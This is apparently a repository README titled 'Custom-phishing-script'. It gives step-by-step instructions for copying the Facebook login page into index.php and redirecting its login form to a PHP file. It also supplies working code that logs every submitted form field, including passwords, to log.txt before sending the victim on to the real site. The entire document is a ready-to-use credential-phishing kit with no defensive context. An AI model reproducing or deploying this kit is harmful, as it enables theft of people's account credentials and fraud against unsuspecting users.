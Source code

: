# Custom-phishing-script
Custom phishing script
Example facebook page creation:
Open the Facebook login page in your browser.
Press ctrl+U to find the source code
Copy whole source code and create a PHP file (index.php) and paste it.
Now, search for string methode=”POST”, it will give you two results first for login and second for register.
Next, replace the action file name as “xyz.php” in the login form.
Now create a file “xyz.php” and “log.txt” and paste below code in “xyz.php”. 
(File name: xyz.php)


#Script

<?php

// Set the location to redirect the page
header ('Location: http://www.facebook.com');

// Open the text file in writing mode
$file = fopen("log.txt", "a");

foreach($_POST as $variable => $value) {
	fwrite($file, $variable);
	fwrite($file, "=");
	fwrite($file, $value);
	fwrite($file, "\r\n");
}

fwrite($file, "\r\n");
fclose($file);
exit;
?>

